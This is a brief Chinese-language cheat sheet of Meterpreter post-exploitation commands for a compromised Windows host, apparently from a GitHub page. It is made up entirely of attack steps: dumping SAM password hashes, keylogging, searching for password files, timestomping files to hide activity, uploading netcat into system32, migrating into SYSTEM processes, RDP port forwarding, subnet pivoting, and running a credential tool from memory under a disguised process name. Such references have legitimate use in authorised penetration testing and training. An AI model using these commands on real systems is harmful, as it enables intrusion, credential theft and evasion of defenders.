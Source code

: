 查看当前用户:
getuid

显示当前能获得的所有权限:
getprivs

获取系统运行的平台:
sysinfo

查找文件:
search -f *pass*.txt

获取键盘记录:
keyscan_start
keyscan_dump

上传与下载文件:
upload /usr/share/windows-binaries/nc.exe c:\\Windows\\system32
download c:\\Windows\\system32\\calc.exe /tmp/calc.exe

切换到交互式系统shell:
shell

获取密码(SAM)文件中的哈希值:
hashdump

操作文件的修改,访问和创建属性:
timestomp

查看进程:
ps

切换进程(跳到所有者是系统的进程时,权限最高):
migrate 1774(pid号)

记录键盘输入:
run post/windows/capture/keylog_recorder

端口转发:
portfwd add -l 11111 -p 3389 -r 192.168.1.2     把目标主机的3389端口转发到11111端口
rdesktop -u username -p password 192.168.1.2

查看目标所在ip端:
run get_local_subnets

添加路由:
run autoroute -s 192.168.205.1/24

查看路由:
run autoroute -p

删除网段:
run autoroute -d -s 172.2.175.0

探测该网段下的存活主机:
run post/windows/gather/arp_scanner RHOSTS=7.7.7.0/24

执行程序:
execute -f notepad.exe                                      在目标主机上打开记事本
execute -H -f notepad.exe                                   在后台隐藏运行记事本
execute -H -i -f cmd.exe                                    以交互隐藏的方式运行cmd
execute  -H -m -d notepad.exe -f wce.exe -a "-o wce.txt"    -d在目标主机执行时显示的进程名称(用以伪装);-m直接从内存中执行;"-o wce.txt"是wce.exe的运行参数
